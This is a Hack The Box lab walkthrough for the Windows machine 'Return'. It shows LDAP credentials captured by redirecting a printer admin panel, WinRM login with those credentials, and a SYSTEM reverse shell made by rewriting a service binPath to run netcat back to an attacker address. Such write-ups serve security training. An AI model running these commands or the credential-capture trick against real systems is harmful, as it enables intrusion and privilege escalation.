



# Hack The Box - Return



Return is an Easy Windows machine from the printer track. The main idea is to abuse the printer admin panel to capture LDAP credentials, then use those credentials for WinRM, and finally exploit the fact that the account is in `Server Operators` to get SYSTEM.

## Reconnaissance

I started with an Nmap scan and found the expected Windows AD services, plus HTTP on port 80 and WinRM on 5985. The host identified itself as `PRINTER.return.local` in the `return.local` domain.

```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.11.108
nmap -p 53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389 -sCV -oA scans/nmap-tcpscripts 10.10.11.108
```

SMB required authentication for share enumeration, but the open ports strongly suggested a domain controller-style environment.

## Web Panel

The website was an `HTB Printer Admin Panel`, and the `settings.php` page exposed a form with an `ip` field. The page was clearly PHP-based even though it ran behind IIS.



I checked the form submission behavior and noticed only the host/IP was sent, which suggested the site was making an outbound connection using internal LDAP credentials.

## Capturing LDAP Creds

I changed the target host to my own listener and watched for a connection on port 389. That revealed the credentials the printer panel was using to bind to LDAP.



The captured credentials were:

```text
return\svc-printer
1edFg43012!!
```

Those credentials worked for SMB and WinRM.

## User Access

I verified the creds and then logged in with Evil-WinRM.

```bash
crackmapexec smb 10.10.11.108 -u svc-printer -p '1edFg43012!!'
crackmapexec winrm 10.10.11.108 -u svc-printer -p '1edFg43012!!'
evil-winrm -i 10.10.11.108 -u svc-printer -p '1edFg43012!!'
```

That gave a shell as `svc-printer`, and I read the user flag from the desktop.

## Privileges

The account had several useful privileges, including `SeLoadDriverPrivilege`, `SeBackupPrivilege`, and `SeMachineAccountPrivilege`. Most importantly, it was a member of `Server Operators`, which can manage services on a domain controller

That group membership was the key to privilege escalation because it allowed service reconfiguration, start, and stop actions.

## SYSTEM Shell

I uploaded `nc64.exe` and reconfigured an existing service’s `binPath` to execute a reverse shell.

```powershell
upload /opt/netcat/nc64.exe
sc.exe config VSS binpath="C:\windows\system32\cmd.exe /c C:\programdata\nc64.exe -e cmd 10.10.14.6 443"
sc.exe start VSS
```

When the service started, it launched the shell as `NT AUTHORITY\SYSTEM`. 

## Attack Path

- **Scan the host** — identify HTTP, SMB, LDAP, and WinRM. 
- **Inspect the printer panel** — find the `settings.php` LDAP target field.
- **Redirect LDAP** — capture the printer’s bind credentials. 
- **Log in as `svc-printer`** — use SMB/WinRM access.
- **Review group membership** — confirm `Server Operators`. 
- **Modify a service** — change `binPath` to a reverse shell. 
- **Start the service** — get a SYSTEM shell.
